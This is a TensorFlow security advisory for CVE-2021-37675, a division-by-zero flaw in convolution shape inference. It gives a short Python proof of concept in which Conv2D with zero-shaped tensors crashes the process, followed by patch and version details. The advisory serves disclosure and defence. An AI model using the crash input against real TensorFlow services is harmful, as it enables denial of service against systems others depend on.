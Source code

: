 ## TFSA-2021-150: Division by 0 in most convolution operators

### CVE Number
CVE-2021-37675

### Impact
Most implementations of convolution operators in TensorFlow are affected by a
division by 0 vulnerability where an attacker can trigger a denial of service
via a crash:

```python
import tensorflow as tf

tf.compat.v1.disable_v2_behavior()
tf.raw_ops.Conv2D(
  input = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32),
  filter = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.float32),
  strides = [1, 1, 1, 1],
  padding = "SAME")
```

The shape inference
[implementation](https://github.com/galeone/tensorflow/blob/460e000de3a83278fb00b61a16d161b1964f15f4/tensorflow/core/framework/common_shape_fns.cc#L577)
is missing several validations before doing divisions and modulo operations.

### Patches
We have patched the issue in GitHub commit
[8a793b5d7f59e37ac7f3cd0954a750a2fe76bad4](https://github.com/galeone/tensorflow/commit/8a793b5d7f59e37ac7f3cd0954a750a2fe76bad4).

The fix will be included in TensorFlow 2.6.0. We will also cherrypick this
commit on TensorFlow 2.5.1, TensorFlow 2.4.3, and TensorFlow 2.3.4, as these are
also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang of Baidu Security.
